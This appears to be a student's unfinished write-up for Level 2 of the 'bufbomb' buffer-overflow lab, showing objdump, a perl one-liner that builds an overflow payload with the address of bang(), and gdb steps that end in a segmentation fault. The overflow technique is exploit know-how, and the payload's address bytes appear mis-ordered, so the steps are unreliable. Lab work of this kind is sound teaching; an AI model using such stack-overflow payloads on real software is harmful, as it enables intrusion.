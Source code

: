 Level 2
=======

Goal = inject machine instructions onto the stack, have those instructions execute and then redirect function getbuf() to function bang()

To find the address of function ```bang()``` type:
```unix> objdump -d bufbomb | less```

and use ```f``` to go forward and ```b``` to go backwards until you find bang():

```
08049012 <bang>:
 8049012:       55                      push   %ebp
 8049013:       89 e5                   mov    %esp,%ebp
 8049015:       83 ec 18                sub    $0x18,%esp
 8049018:       a1 ec c1 04 08          mov    0x804c1ec,%eax
 804901d:       3b 05 e4 c1 04 08       cmp    0x804c1e4,%eax
 8049023:       75 1e                   jne    8049043 <bang+0x31>
 8049025:       89 44 24 04             mov    %eax,0x4(%esp)
 ... # other stuff we don't care about for now
 ```
<b>write down the address of bang(). Mine is 08049012</b>

Now type:

```
unix> perl -e 'print "AA "x44, "08 04 90 12 " ' > hexlevel2
unix> ./hex2raw < hexlevel2 > raw
unix> gdb bufbomb
(gdb) break getbuf
(gdb) run -u quinnliu < raw
```

Now use the gdb examine command ```x``` to locate the address and the value held for the variable ```global_value``` by typing:

```
(gdb) x/x &global_value
```

Gives you:

```
(gdb) x/x &global_value
0x804c1ec <global_value>:       0x00000000
```

Now break bang() and show disassembly:
```
(gdb) break bang
(gdb) cont
(gdb) disas
```

Break bang() returns 0x08049018????????????????

(gdb) cont
Continuing.

Program received signal SIGSEGV, Segmentation fault.
0x18900408 in ?? ()




